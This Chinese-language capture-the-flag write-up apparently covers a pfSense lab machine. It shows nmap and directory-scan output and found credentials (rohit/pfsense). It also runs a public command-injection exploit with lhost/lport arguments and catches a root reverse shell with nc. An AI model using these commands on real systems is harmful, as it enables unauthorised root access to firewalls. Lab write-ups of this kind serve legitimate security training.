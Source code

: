 ## nmap

```Bash
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/http lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

```



## http

80跳转443，是一个登录页面

![](https://secure2.wostatic.cn/static/bEJ6isquyqaegMxg1LKVCe/image.png?auth_key=1677500330-9Pt8sG37ppHAPQ7xbqDneA-0-a475892986268b66f626422562f63175)



目录爆破（已经剔除了前端相关页面，和登录页面重复网页，只保留有效）

```Bash
/index.html           (Status: 200) [Size: 329]
/help.php             (Status: 200) [Size: 6689]
/index.php            (Status: 200) [Size: 6690]
/changelog.txt        (Status: 200) [Size: 271]

```

changelog.txt 的内容提示当前版本有漏洞未修复

### 巨坑

这个题目的核心是下面这个文件，扫描的时候要很困难才会扫出来，这个只使用txt后缀，扫了15分钟，上次加多个后缀用了2个小时。

![](https://secure2.wostatic.cn/static/oWmBQEBVJ6vTiHhyT8HKwZ/image.png?auth_key=1677500330-kU9Uck4vmMqDz3mGWXpmfe-0-accba80fa32f0b9ce76d37c03b1bd0b1)

![](https://secure2.wostatic.cn/static/aXCs6mQ8gWD9hvAbQzh9aX/image.png?auth_key=1677500330-d1nFUwx4qzd5W7TqiKYHuj-0-1d2b0a6c17bc34a4e314c534de47c6fe)

根据提示，拿到用户名密码未 rohit/pfsense

```Bash
└─# searchsploit pfsense | grep 2.1
pfSense 2.1 build 20130911-1816 - Directory Traversal                                                                                                                                                                                                      | php/webapps/31263.txt
pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection                                                                                                                                                                                             | php/webapps/43560.py

```

根据页面版本提示拿到唯一命中版本的exp，跑脚本拿到root shell

```Bash
└─# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.16.11 --lport 7777 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed

└─# nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.16.11] from (UNKNOWN) [10.10.10.60] 55044
sh: can't access tty; job control turned off
#
#

# # iud
iud: not found
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
#


```



